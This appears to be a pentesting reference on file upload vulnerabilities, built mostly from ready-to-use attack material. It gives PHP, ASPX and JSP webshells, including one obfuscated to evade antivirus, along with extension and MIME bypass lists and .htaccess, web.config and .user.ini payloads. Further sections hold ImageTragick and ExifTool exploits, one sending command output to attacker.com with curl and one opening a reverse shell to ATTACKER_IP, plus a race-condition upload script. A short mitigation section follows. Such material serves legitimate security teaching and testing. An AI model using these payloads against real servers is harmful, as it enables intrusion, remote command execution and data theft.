

# File Upload Vulnerabilities

> **File upload vulnerabilities occur when an attacker can upload a malicious file — like a PHP webshell — and then access it via the browser to execute commands on the server.**

---

## 🧠 What Is It? (Beginner Explanation)

Web apps let users upload profile pictures, documents, and other files. If the server doesn't strictly validate what's being uploaded and where it ends up, an attacker can upload a PHP script instead of a JPEG, navigate to it in the browser, and the web server *executes the PHP code*.

That gives the attacker a "webshell" — a browser-accessible interface to run OS commands on the server.

---

## 🏗️ How It Works (Technical Deep Dive)

```
Normal flow:
User uploads avatar.jpg → Saved to /uploads/avatar.jpg → Served as an image

Attack flow:
Attacker uploads shell.php → Saved to /uploads/shell.php → Browser requests /uploads/shell.php → Apache/PHP executes the code
```

The danger isn't uploading a file — it's the server **executing** it. PHP, ASPX, JSP files are dangerous because web servers can execute them. JPEGs and PDFs are harmless (unless the processing library has a bug).

---

## 📊 Diagram



---

## ⚙️ Technical Details

### File Upload Validation Methods (and Weaknesses)

#### 1. Extension Validation (Blacklist)
```
Server maintains a list of banned extensions: .php, .exe, .sh
WEAKNESS: Impossible to list every dangerous extension
```

#### 2. Extension Validation (Whitelist)
```
Server only allows specific extensions: .jpg, .png, .gif, .pdf
STRONGER, but: still bypassable via null bytes, double extensions, 
               case differences, or if web server is misconfigured
```

#### 3. MIME Type (Content-Type) Validation
```
Server checks the Content-Type header in the upload request
WEAKNESS: Client-controlled header. Trivially changed in Burp Suite.

POST /upload HTTP/1.1
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/jpeg    ← attacker set this, server trusts it
```

#### 4. Magic Bytes Validation
```
Server reads first few bytes of file to determine type (not trusting headers)
JPEG magic bytes: FF D8 FF
PNG: 89 50 4E 47 0D 0A 1A 0A
PDF: 25 50 44 46 (%PDF)
WEAKNESS: Can prepend real magic bytes to PHP code
```

#### 5. File Content Scanning (Antivirus)
```
Server scans file content with AV
WEAKNESS: Custom/obfuscated webshells may evade detection
          Race condition between upload and scan
```

---

## 🔴 Attack Surface & Exploitation

### Bypass Techniques

#### Extension Blacklist Bypass

Common blacklisted: `.php`, `.php3`, `.php4`, `.php5`, `.php7`, `.phtml`, `.phar`

```
Try all of these (PHP execution capability):
.php3       .php4       .php5       .php6       .php7       .php8
.phtml      .phar       .phps       .pht        .phpt       .pgif
.shtml      .shtm       .sht        .stm
.cgi        .pl         .asp        .aspx       .asax       .ascx
.ashx       .asmx       .axd        .jsp        .jspx       .jsw
.cfm        .cfc        .cfml

# .htaccess (if Apache allows AllowOverride)
# web.config (IIS)
# .user.ini (PHP config override)
```

#### MIME Type Bypass

```http
# Original request (Burp intercept and modify):
POST /upload HTTP/1.1
Host: target.com
Content-Type: multipart/form-data; boundary=--boundary123

----boundary123
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/php                ← Change this

<?php system($_GET['cmd']); ?>
----boundary123--
```

```http
# Change to:
Content-Type: image/jpeg
Content-Type: image/png
Content-Type: image/gif
Content-Type: application/pdf
Content-Type: text/plain
```

#### Double Extension

```
file.php.jpg    ← Apache might process based on last extension (jpg)
                  BUT if misconfigured, processes ALL extensions right-to-left
file.jpg.php    ← Server might keep the rightmost .php
file.php.       ← Trailing dot may be stripped on Windows
file.php%20     ← Trailing space stripped on Windows
file.php::$DATA ← Windows NTFS Alternate Data Stream (removes ::$DATA)
```

#### Null Byte Injection

```
file.php%00.jpg
file.php\x00.jpg

# In C-based parsers, null byte terminates the string
# filename seen by extension check: .jpg (PASSES)
# filename seen by C file operations: file.php (EXECUTES as PHP)

# Note: Fixed in PHP >= 5.3.4, but still seen in old/custom code
```

#### Magic Bytes Bypass

```python
# Create a polyglot file: valid JPEG + PHP webshell
python3 -c "
data = b'\xff\xd8\xff\xe0'  # JPEG magic bytes
data += b'<?php system(\$_GET[\"cmd\"]); ?>'
open('shell.php.jpg', 'wb').write(data)
"

# Or using exiftool to embed PHP in JPEG metadata
exiftool -Comment='<?php system($_GET["cmd"]); ?>' image.jpg
mv image.jpg shell.php
# Upload → magic bytes check passes (real JPEG bytes at start)
# PHP executed → webshell works
```

#### .htaccess Upload (Apache)

```apache
# Upload this file named ".htaccess":
AddType application/x-httpd-php .jpg
# Now ALL .jpg files in that directory are executed as PHP!

# Or:
Options +ExecCGI
AddHandler cgi-script .jpg

# More specific:
<Files "shell.jpg">
  SetHandler application/x-httpd-php
</Files>
```

#### web.config Upload (IIS)

```xml
<!-- Upload as web.config to execute ASPX in that directory -->
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*"
              modules="IsapiModule"
              scriptProcessor="%windir%\system32\inetsrv\asp.dll"
              resourceType="Unspecified"
              requireAccess="Write"
              preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%  Call Server.Execute(Request.Item("cmd")) %>
```

#### .user.ini Upload (PHP)

```ini
# Upload as .user.ini (PHP reads this to override php.ini per-directory)
auto_prepend_file=shell.jpg
# Now ALL PHP files in that directory will prepend the contents of shell.jpg
# shell.jpg contains: <?php system($_GET['cmd']); ?>
```

#### Case Variation

```
shell.PHP
shell.Php
shell.pHp
SHELL.PHP
```

---

## 💥 Payloads & Webshells

### PHP Webshells

```php
<?php system($_GET['cmd']); ?>
<?php echo shell_exec($_GET['cmd']); ?>
<?php passthru($_GET['cmd']); ?>
<?php echo exec($_GET['cmd']); ?>

// Usage: http://target.com/uploads/shell.php?cmd=id

// More feature-rich webshell
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
<form action="" method="post">
<input type="text" name="cmd" size="50">
<input type="submit" value="Execute">
</form>

// Obfuscated (bypass simple AV/WAF)
<?php $_=base64_decode("c3lzdGVt");$_($_GET[0]); ?>
// system($_GET[0])  

// Using variable functions
<?php $f=$_GET['f'];$f($_GET['c']); ?>
// system(id) via: ?f=system&c=id
```

### ASPX Webshell

```aspx
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Diagnostics" %>
<script runat="server">
    protected void Page_Load(object sender, EventArgs e)
    {
        string cmd = Request.QueryString["cmd"];
        if (cmd != null) {
            ProcessStartInfo psi = new ProcessStartInfo();
            psi.FileName = "cmd.exe";
            psi.Arguments = "/c " + cmd;
            psi.RedirectStandardOutput = true;
            psi.UseShellExecute = false;
            Process p = Process.Start(psi);
            Response.Write("<pre>" + p.StandardOutput.ReadToEnd() + "</pre>");
        }
    }
</script>
```

### JSP Webshell

```jsp
<%@ page import="java.util.*,java.io.*"%>
<%
String cmd = request.getParameter("cmd");
if (cmd != null) {
    Process p = Runtime.getRuntime().exec(new String[]{"/bin/bash","-c",cmd});
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
        out.println(disr);
        disr = dis.readLine();
    }
}
%>
```

---

## ⚡ Server-Side Processing Vulnerabilities

### ImageMagick — ImageTragick (CVE-2016-3714)

ImageMagick processes images for thumbnailing, resizing, etc. Older versions allowed command execution via specially crafted image files.

```
# Malicious MVG file (upload as image.jpg or image.png)
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.png"|id > /tmp/pwned")'
pop graphic-context

# Or using the "label" format:
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'label:@/etc/passwd'
pop graphic-context
```

Create the malicious file:
```bash
cat > exploit.mvg << 'EOF'
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/x.png"|curl http://attacker.com/$(id|base64)")'
pop graphic-context
EOF

# Rename to look like image
cp exploit.mvg shell.jpg
```

### ExifTool (CVE-2021-22204)

ExifTool < 12.24 allows arbitrary code execution via a crafted DjVu file due to improper handling of annotations.

```bash
# Create malicious file using exploit
# Payload is embedded in DjVu metadata

# PoC using the python exploit:
python3 CVE-2021-22204.py -c "id" -i image.jpg
# Creates a JPEG that when processed by ExifTool executes the command

# Reverse shell via ExifTool
python3 CVE-2021-22204.py -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1" -i avatar.jpg
```

### SVG XSS Upload

SVG files are XML and can contain `<script>` tags. If the server serves SVGs with `Content-Type: image/svg+xml`:

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert(document.cookie);
  </script>
</svg>
```

Upload → navigate to `/uploads/image.svg` → XSS fires in victim's browser.

---

## 📁 Office File Attacks (XXE via DOCX/XLSX)

Office files (`.docx`, `.xlsx`, `.pptx`) are ZIP archives containing XML files. They can contain XXE payloads.

```bash
# Extract docx
unzip test.docx -d test_dir

# Inject XXE into word/document.xml
cat > test_dir/word/document.xml << 'EOF'
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<w:document>
  <w:body>
    <w:p><w:r><w:t>&xxe;</w:t></w:r></w:p>
  </w:body>
</w:document>
EOF

# Repack
cd test_dir && zip -r ../malicious.docx . && cd ..
```

---

## 📦 Zip Slip (Path Traversal via Archive)

When a server extracts a ZIP/TAR and the filenames contain `../`, files can be written outside the intended directory.

```python
# Create malicious ZIP with path traversal
import zipfile

with zipfile.ZipFile('evil.zip', 'w') as z:
    # This file will extract to /var/www/html/shell.php
    z.write('/tmp/shell.php', '../../var/www/html/shell.php')
```

```bash
# Or using command line
mkdir -p evil/../../var/www/html
echo '<?php system($_GET["cmd"]); ?>' > evil/../../var/www/html/shell.php
zip --symlinks -r evil.zip evil/
```

---

## ⏱️ Race Conditions

Some servers:
1. Accept the file
2. Scan it
3. Delete it if malicious

Between steps 1 and 3, there's a window to access and execute the file.

```python
# Race condition exploit - rapid upload + access
import requests, threading

def upload():
    while True:
        r = requests.post('http://target.com/upload',
            files={'file': ('shell.php', '<?php system($_GET["cmd"]); ?>', 'image/jpeg')})

def trigger():
    while True:
        r = requests.get('http://target.com/uploads/shell.php?cmd=id')
        if 'uid=' in r.text:
            print("SUCCESS:", r.text)
            break

# Run both simultaneously
t1 = threading.Thread(target=upload)
t2 = threading.Thread(target=trigger)
t1.start()
t2.start()
```

---

## 🛠️ Tools & Commands

```bash
# Intercept with Burp Suite
# 1. Turn on intercept
# 2. Upload legitimate image
# 3. In intercepted request, change:
#    - filename to shell.php
#    - Content-Type to image/jpeg
#    - File content to <?php system($_GET['cmd']); ?>
# 4. Forward, navigate to /uploads/shell.php?cmd=id

# fuzz extensions with wfuzz
wfuzz -c -w /usr/share/wordlists/php-extensions.txt \
  -u "http://target.com/shell.FUZZ" \
  --hc 404

# Check what files are accessible
gobuster dir -u http://target.com/uploads/ -w /usr/share/wordlists/dirb/common.txt

# exiftool to embed payload in image metadata
exiftool -Comment='<?php echo system($_GET["cmd"]); ?>' image.jpg
exiftool -DocumentName='<?php echo system($_GET["cmd"]); ?>' image.jpg

# Create polyglot JPEG+PHP
python3 -c "
import struct
# JPEG SOI marker
header = b'\xff\xd8\xff\xe0\x00\x10JFIF\x00\x01\x01\x00\x00\x01\x00\x01\x00\x00'
# PHP webshell
payload = b'<?php system(\$_GET[\"cmd\"]); ?>'
with open('polyglot.php', 'wb') as f:
    f.write(header + payload)
"
```

---

## 🔍 Detection

### Testing Methodology

```
Step 1: Test what the baseline accepts
  - Upload a legitimate image
  - Note the URL where it's stored
  - Note any validation messages

Step 2: Try to upload a PHP file directly
  - Change filename to shell.php
  - Observe error: "Only images allowed" / "Invalid file type"

Step 3: Try MIME type bypass
  - Keep filename as shell.php
  - Change Content-Type: image/jpeg
  - Submit

Step 4: Try extension variations
  - shell.php5, shell.phtml, shell.phar, shell.php.jpg

Step 5: Try magic bytes
  - Prepend JPEG bytes to PHP code

Step 6: Check if stored files are executed
  - Upload a .jpg with PHP code inside
  - Navigate to the file URL
  - Does it execute? Or serve as text/plain?
```

---

## 🛡️ Mitigation

```python
# Python/Flask - Secure file upload handling
import os
import uuid
from werkzeug.utils import secure_filename
from PIL import Image

ALLOWED_EXTENSIONS = {'jpg', 'jpeg', 'png', 'gif'}
UPLOAD_FOLDER = '/var/app/uploads'  # NOT in web root

def allowed_file(filename):
    return '.' in filename and \
           filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS

def upload_file():
    file = request.files['file']
    
    # 1. Whitelist extension check
    if not allowed_file(file.filename):
        abort(400, 'Extension not allowed')
    
    # 2. Re-encode image to strip metadata/payloads
    try:
        img = Image.open(file)
        img.verify()  # Verify it's actually an image
    except:
        abort(400, 'Invalid image')
    
    # 3. Generate random filename - don't trust user-supplied name
    filename = str(uuid.uuid4()) + '.jpg'
    
    # 4. Store OUTSIDE web root
    filepath = os.path.join(UPLOAD_FOLDER, filename)
    img.save(filepath)
    
    # 5. Serve via dedicated route that reads file and serves with correct headers
    return filename
```

### Key Mitigations Summary

```
1. Whitelist extensions (NOT blacklist)
2. Validate by re-processing the file (re-encode images via PIL/ImageMagick)
3. Generate random new filename (never use user-supplied filename)
4. Store uploads OUTSIDE the web root
5. Serve uploads through a non-PHP-executing path
6. Set Content-Type header when serving: Content-Type: image/jpeg
7. Use a separate domain or CDN for user uploads (no cookies, no PHP)
8. Set upload directory to not execute scripts (.htaccess: php_flag engine off)
9. Run file through antivirus/sandbox
10. Limit file size
```

---

## 📋 Real CVE Examples

| CVE | Application | Type | Impact |
|-----|-------------|------|--------|
| CVE-2016-3714 | ImageMagick | MVG command injection via image processing | RCE |
| CVE-2021-22204 | ExifTool < 12.24 | DjVu metadata command injection | RCE |
| CVE-2019-11226 | CMS Made Simple | Arbitrary file upload | RCE |
| CVE-2020-35489 | Contact Form 7 (WordPress) | Unrestricted file upload | RCE |
| CVE-2021-24750 | WP Visitors | PHP file upload | RCE |
| CVE-2022-1329 | Elementor Pro | Arbitrary file upload (auth'd) | RCE |
| CVE-2023-3460 | Ultimate Member (WordPress) | Privilege escalation via upload | Admin takeover |

---

## 📚 References

- [PortSwigger File Upload Vulnerabilities](https://portswigger.net/web-security/file-upload)
- [OWASP Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [PayloadsAllTheThings File Upload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)
- [ImageTragick CVE-2016-3714](https://imagetragick.com/)
- [ExifTool CVE-2021-22204 PoC](https://github.com/CsEnox/Gitlab-Exiftool-RCE)
- [HackTricks File Upload](https://book.hacktricks.xyz/pentesting-web/file-upload)
